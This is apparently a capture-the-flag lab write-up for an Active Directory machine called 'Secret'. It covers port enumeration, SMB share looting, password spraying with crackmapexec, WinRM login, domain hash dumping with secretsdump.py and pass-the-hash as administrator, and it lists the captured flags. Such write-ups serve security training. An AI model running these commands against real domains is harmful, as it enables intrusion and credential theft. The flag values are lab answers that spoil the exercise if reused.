


# Secret

**IP Address:** 172.31.1.4

## Enumeration
### Open Ports
| Port | State | Service | Version |
|------|-------|---------|---------|
| 3268/tcp | open | ldap | Microsoft Windows Active Directory LDAP  |
| 3269/tcp | open | tcpwrapped |   |
| 389/tcp | open | ldap | Microsoft Windows Active Directory LDAP  |
| 464/tcp | open | kpasswd5 |   |
| 49665/tcp | open | msrpc | Microsoft Windows RPC  |
| 49667/tcp | open | msrpc | Microsoft Windows RPC  |
| 49668/tcp | open | msrpc | Microsoft Windows RPC  |
| 49676/tcp | open | ncacn_http | Microsoft Windows RPC over HTTP 1.0 |
| 49680/tcp | open | msrpc | Microsoft Windows RPC  |
| 49703/tcp | open | msrpc | Microsoft Windows RPC  |
| 49742/tcp | open | msrpc | Microsoft Windows RPC  |
| 593/tcp | open | ncacn_http | Microsoft Windows RPC over HTTP 1.0 |
| 5985/tcp | open | http | Microsoft HTTPAPI httpd 2.0 |
| 636/tcp | open | tcpwrapped |   |
| 88/tcp | open | kerberos-sec | Microsoft Windows Kerberos  |
| 9389/tcp | open | mc-nmf | .NET Message Framing  |
| 123/udp | open | ntp |   |
| 135/udp | open|filtered | msrpc |   |
| 137/udp | open|filtered | netbios-ns |   |
| 138/udp | open|filtered | netbios-dgm |   |
| 139/udp | open|filtered | netbios-ssn |   |
| 1434/udp | open|filtered | ms-sql-m |   |
| 161/udp | open|filtered | snmp |   |
| 162/udp | open|filtered | snmptrap |   |
| 1900/udp | open|filtered | upnp |   |
| 445/udp | open|filtered | microsoft-ds |   |
| 4500/udp | open|filtered | nat-t-ike |   |
| 49152/udp | open|filtered | unknown |   |
| 500/udp | open|filtered | isakmp |   |
| 514/udp | open|filtered | syslog |   |
| 520/udp | open|filtered | route |   |
| 53/udp | open | domain |   |
| 631/udp | open|filtered | ipp |   |
| 67/udp | open|filtered | dhcps |   |
| 68/udp | open|filtered | dhcpc |   |
| 69/udp | open|filtered | tftp |   |

## Exploitation
### Exploit Details (Found Credentials)
* **Name** - Found Credentials
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

1. Enumerate smb shares to find usernames and default password.

Commands
```
smbclient //$ip/Office_Share
dir
get Default_Password.txt
quit
cat Default_Password.txt
```


2. Create username list with permutations and bruteforce logins. Use found credentials to login remotely.  

Commands
```
cat users.txt
crackmapexec smb -u users.txt -p SecretOrg! -d secret.org $ip
evil-winrm -i $ip -u JCakes -p SecretOrg!
whoami
type ..\Desktop\access.txt
```



## Privilege Escalation
### Exploit Details (Found Credentials)
* **Name** - 
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

1. Running winPEAS shows a found password. 


2. Brute force this password with the username list. 

Commands
```
crackmapexec smb -u users.txt -p 'vF4$x9#z:-eT~Fy' -d secret.org $ip
```


3. Dump the administator hashes from the domain with the new account. 

Commands
```
secretsdump.py -just-dc BDover@secret.org
vF4$x9#z:-eT~Fy
```



4. Login with administrator hash. 

Commands
```bash
evil-winrm -i 172.31.1.4 -u administrator -H 4d801e8c043133366056b5cd6fdcc2c7
whoami
type ..\Desktop\system.txt
```


## Loot
```
access.txt
f32dae1bca59aea4a591f970f7aa4d2c
system.txt
7b50e84e903c4cfad6498977632fd763
```